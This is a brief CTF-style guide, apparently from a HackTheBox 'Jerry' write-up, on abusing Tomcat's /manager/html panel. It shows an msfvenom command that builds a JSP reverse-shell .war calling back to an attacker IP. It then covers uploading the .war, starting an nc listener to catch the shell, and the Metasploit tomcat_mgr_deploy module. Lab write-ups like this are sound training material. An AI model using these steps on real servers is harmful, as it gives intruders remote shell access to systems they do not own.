


# Manager Panel - Upload shell
If you have access to the
/manager/html panel, you can upload a .war archive and get a shell on the system
a) Manually
You can do it manually by generating a .war with msfvenom and uploading it
Generate
.war jsp reverse shell using
msfvenom.
root@gotham:~/ctf/jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.25 LPORT=9001 -f war -o lulz.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
Saved as: lulz.war
Upload your
.war reverse shell.
You should see your
.war file under
Applications (mine is
lulz)
Start a listener on your attacking machine to receive the shell
root@gotham:~/ctf/jerry/8080# nc -lvnp 9001
listening on [any] 9001 ...
And run your uploaded .war by visiting to link to you reverse shell under
Applications.
b) metasploit tomcat_mgr_deploy
The metasploit module
tomcat_mgr_deploy will get a shell for you - self explanatory.
Make sure to set the tomcat username and password